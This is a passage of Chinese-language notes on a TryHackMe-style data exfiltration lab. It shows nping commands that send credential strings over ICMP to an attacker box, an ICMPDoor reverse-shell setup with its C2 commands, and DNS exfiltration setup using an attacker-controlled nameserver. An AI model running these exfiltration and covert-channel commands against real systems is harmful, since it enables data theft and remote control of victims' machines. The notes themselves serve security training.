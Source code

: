         2. **受害者机器 (使用 `nping` 工具发送数据)**:
            - **发送 BOF 触发器和文件名**:
                
                Bash
                
                ```
                thm@icmp-host:~# sudo nping --icmp -c 1 <AttackBox_IP> --data-string "BOFfile.txt"
                ```
                
            - **发送数据块**:
                
                Bash
                
                ```
                thm@icmp-host:~# sudo nping --icmp -c 1 <AttackBox_IP> --data-string "admin:password"
                thm@icmp-host:~# sudo nping --icmp -c 1 <AttackBox_IP> --data-string "admin2:password2"
                ```
                
            - **发送 EOF 触发器**:
                
                Bash
                
                ```
                thm@icmp-host:~# sudo nping --icmp -c 1 <AttackBox_IP> --data-string "EOF"
                ```
                
        3. Metasploit 会自动保存接收到的文件到 loot 目录。
- **3. ICMP C2 通信 (ICMPDoor 工具)**:
    - **原理**: 基于 Python3 和 Scapy 开发的 ICMP 反向 Shell，利用 ICMP 数据包的数据部分双向传输命令和执行结果。
    - **步骤**:
        1. **受害者机器 (运行 `icmpdoor` 客户端)**:
            
            Bash
            
            ```
            thm@icmp-host:~$ sudo ./icmpdoor -i eth0 -d <Attacker_JumpBox_IP>
            ```
            
            - `-i`: 指定网络接口。
            - `-d`: 指定 C2 服务器 (攻击者 JumpBox) 的 IP 地址。
        2. **攻击者 JumpBox (运行 `icmp-cnc` 服务端)**:
            
            Bash
            
            ```
            thm@jump-box$ sudo ./icmp-cnc -i eth1 -d <Victim_icmp-host_IP>
            shell> hostname
            # icmp-host
            ```
            
            - `-i`: 指定网络接口。
            - `-d`: 指定目标受害者 (运行 icmpdoor 的机器) 的 IP 地址。

##### E. DNS 协议窃取 (DNS Protocol Exfiltration)

- **原理与适用场景**: DNS 协议用于域名解析，其查询和响应流量通常被防火墙允许。攻击者可利用 DNS 查询中的域名部分（特别是子域名）或特定记录类型（如 TXT）来编码和传输数据。由于 DNS 查询的特性，此方法隐蔽性较高，但受限于域名长度（FQDN 最长 255 字符）和子域名标签长度（最长 63 字符），传输大数据量时会产生大量 DNS 请求，可能引起注意。
- **1. 前提与 DNS 配置**:
    - **核心要求**: 攻击者必须控制一个域名，并能够配置其 DNS 记录，特别是设置一个指向攻击者控制的服务器的 NS (Name Server) 记录。
    - **设置攻击者控制的权威NS**:
        1. **创建 A 记录**: 例如，`ns1.attacker-domain.com` 指向 `Attacker_Machine_IP`。
        2. **创建 NS 记录**: 例如，将某个子域 `exfil.attacker-domain.com` 的 NS 记录指向 `ns1.attacker-domain.com`。当有对 `*.exfil.attacker-domain.com` 的查询时，请求最终会到达攻击者的 DNS 服务器。
    - **(实验环境说明)**: 笔记中提到使用 `tunnel.com` 域名，并通过 Web 界面 (`http://10.10.85.21/` 或 `https://10-10-85-21.p.thmlabs.com/`) 配置 DNS 记录。建议使用 JumpBox 以避免客户端 DNS 配置问题；若使用 AttackBox，可能需修改其 `/etc/netplan/*.yaml` 文件将 DNS 服务器指向实验环境提供的 DNS (如 `10.10.85.21`) 并执行 `sudo netplan apply`。
    - **DNS 测试**: 确保可以解析实验域名，如 `dig +short test.thm.com` 和 `dig +short test.tunnel.com` 应返回 `127.0.0.1`。
- **2. 直接数据传输 (通过子域名)**: